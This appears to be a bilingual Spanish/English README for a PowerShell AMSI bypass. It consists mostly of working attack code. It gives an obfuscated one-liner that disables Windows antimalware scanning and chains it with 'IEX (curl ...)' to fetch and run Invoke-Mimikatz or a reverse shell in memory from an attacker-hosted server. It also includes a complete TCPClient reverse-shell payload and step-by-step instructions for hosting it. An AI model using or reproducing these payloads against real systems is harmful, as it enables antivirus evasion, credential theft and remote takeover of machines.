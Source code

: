 # Amsi Bypass Powershell #

```
$a = 'si'; $b = 'Am'; $Ref = [Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils' -f $b, $a)); $z = $Ref.GetField(('am{0}InitFailed' -f $a),'NonPublic,Static'); $z.SetValue($null,$true)
```

# Spanish:
## Ejemplo de uso:

Guardar en un archivo, este script de Mimikatz de este repo:
https://raw.githubusercontent.com/dievus/PowerShellForPentesters/main/Tools/Invoke-Mimikatz.ps1

Abres un servidor con Python o Apache y guardas el archivo con cualquier formato puedes guardar el archivo hasta en Webhost/Pastebin/Github etc, cualquier servidor con formato Raw y en la Powershell escribes el Bypass de AMSI + IEX (curl link)

## Ejemplo:

```
$a = 'si'; $b = 'Am'; $Ref = [Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils' -f $b, $a)); $z = $Ref.GetField(('am{0}InitFailed' -f $a),'NonPublic,Static'); $z.SetValue($null,$true); IEX (curl http://192.168.0.7/mimiktz)
```

Con lo anterior Bypasseas amsi y haces una descarga del codigo del servidor y lo ejecutas en memoria

Tambien puedes guardar una reverse shell en el servidor

## Ejemplo de Reverse Shell en Powershell:

```
$client = New-Object System.Net.Sockets.TCPClient("ip",puerto);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Lo guardas en un archivo, abres el servidor y ejeutas lo siguiente cambiando el servidor y nombre de archivo

```
$a = 'si'; $b = 'Am'; $Ref = [Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils' -f $b, $a)); $z = $Ref.GetField(('am{0}InitFailed' -f $a),'NonPublic,Static'); $z.SetValue($null,$true); IEX (curl http://192.168.0.7/reverse)
```

# English:

## Example of use:

Save to a file, this Mimikatz script from this repo:
https://raw.githubusercontent.com/dievus/PowerShellForPentesters/main/Tools/Invoke-Mimikatz.ps1

You open a server with Python or Apache and save the file with any format you can save the file even in Webhost/Pastebin/Github etc, any server with Raw format and in the Powershell you write the AMSI + IEX Bypass (curl link)

## Example:

```
$a = 'si'; $b = 'Am'; $Ref = [Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils' -f $b, $a)); $z = $Ref.GetField(('am{0}InitFailed' -f $a),'NonPublic,Static'); $z.SetValue($null,$true); IEX (curl http://192.168.0.7/mimiktz)
```

With the above Bypasseas amsi and download the code from the server and run it in memory.

You can also save a reverse shell on the server

## Example of Reverse Shell in Powershell:

```
$client = New-Object System.Net.Sockets.TCPClient("ip",puerto);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Save it to a file, open the server and execute the following by changing the server and file name

```
$a = 'si'; $b = 'Am'; $Ref = [Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils' -f $b, $a)); $z = $Ref.GetField(('am{0}InitFailed' -f $a),'NonPublic,Static'); $z.SetValue($null,$true); IEX (curl http://192.168.0.7/reverse)
```
